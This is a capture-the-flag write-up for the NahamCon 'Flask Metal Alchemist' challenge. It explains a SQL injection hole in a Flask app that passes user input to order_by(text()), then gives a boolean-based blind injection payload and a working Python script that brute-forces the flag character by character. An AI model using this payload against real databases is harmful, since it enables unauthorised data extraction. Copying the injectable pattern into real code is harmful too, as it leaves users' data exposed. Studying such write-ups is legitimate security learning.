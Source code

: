 # Flask Metal Alchemist

It seems like the website let us search for metals by name 

![Untitled](writeup_media/Untitled%2012.png)

Notice this part from source code

```python
if order is None:
    metals = Metal.query.filter(Metal.name.like("%{}%".format(search)))
else:
    metals = Metal.query.filter(
        Metal.name.like("%{}%".format(search))
    ).order_by(text(order))
```

We can see that the code uses the `order_by()` method with an untrusted input, which can easily lead to SQL injection vulnerability

Build a local server from the given source code and send the payload `search=a&order=abc`. Server send back a status code 500 (due to no column named `abc`). Read the log to read the full query server used.

![Untitled](writeup_media/Untitled%2013.png)

After an intensive trial-and-error, I crafted the a SQLi blind boolean-based payload for param `order` to brute-force char by char in flag.

```sql
(SELECT CASE
           WHEN (SELECT HEX(SUBSTR(flag, §pos§, 1)) FROM flag) = HEX('§char§')
               THEN atomic_number
           ELSE name
           END)
```

Combine with the query server used

```sql
SELECT metals.atomic_number AS metals_atomic_number, metals.symbol AS metals_symbol, metals.name AS metals_name
FROM metals
WHERE metals.name LIKE ?
ORDER BY (SELECT CASE
                     WHEN (SELECT HEX(SUBSTR(flag, §pos§, 1)) FROM flag) = HEX('§char§')
                         THEN atomic_number
                     ELSE name
                     END)
```

The given query will search for metal with a given name, then order it by the part `(SELECT ... END)`

The `(SELECT ... END)` will return column `atomic_number` if hex value of char at index `§pos§` equal to hex value of `§char§`, otherwise return colum `name   `

As a result, we can tell true/false by observing the order of metal's name in the response

Let `§pos§` = `1`, `§char§` = `f`, we receive a table sorted by `atomic_number` if the char at index `1` is `f`

![Untitled](writeup_media/Untitled%2014.png)

Try `§pos§` = `1`, `§char§` = `g`, we receive a table sorted by `name` → the char at index `1` is not `g`

![Untitled](writeup_media/Untitled%2015.png)

We can use python for brute-forcing

```python
import asyncio
import time

import aiohttp
import string

URL = 'http://challenge.nahamcon.com:31140'

AVAIL_CHAR = string.ascii_lowercase + '{}_'

async def post(s: aiohttp.ClientSession, pos, char):
    """
    Send a POST request
    :param s: request session
    :param pos: position to check
    :param char: character to check
    :return: response's body in bytes
    """
    try:
        data = {
            'search': 'a',
            'order': f'(SELECT CASE WHEN (SELECT HEX(SUBSTR(flag, {pos}, 1)) FROM flag) = HEX(\'{char}\') THEN atomic_number ELSE name END)'
        }
        async with s.post(url=URL, data=data) as res:
            return await res.read()

    except Exception as e:
        print(f"Unable to POST due to {e}")
        return None

async def post_proc(s: aiohttp.ClientSession, pos, char):
    """
    Handle sending a POST request and analyze the response
    :param s: request session
    :param pos: position to check
    :param char: character to check
    :return: None if response is invalid or boolean check is failed, else return tuple (pos, char)
    """
    res = await post(s, pos, char)

    if res is None:
        return None

    return (pos, char) if res.find(b'Actinium') > res.find(b'Magnesium') else None

def parse_flag(res):
    flag = [x for x in res if x is not None]
    print(flag)
    return ''.join([x[1] for x in flag])

async def main():
    async with aiohttp.ClientSession() as s:
        res = []

        # avoid using 2 for loop in asyncio.gather() due to server's overload
        for pos in range(1, 31):
            res += await asyncio.gather(*[post_proc(s, pos, char) for char in AVAIL_CHAR])
            print(parse_flag(res))

if __name__ == '__main__':
    asyncio.run(main())
    time.sleep(1)
    print('Done')
```

<aside>
🚩 flag{order_by_blind}
</aside>
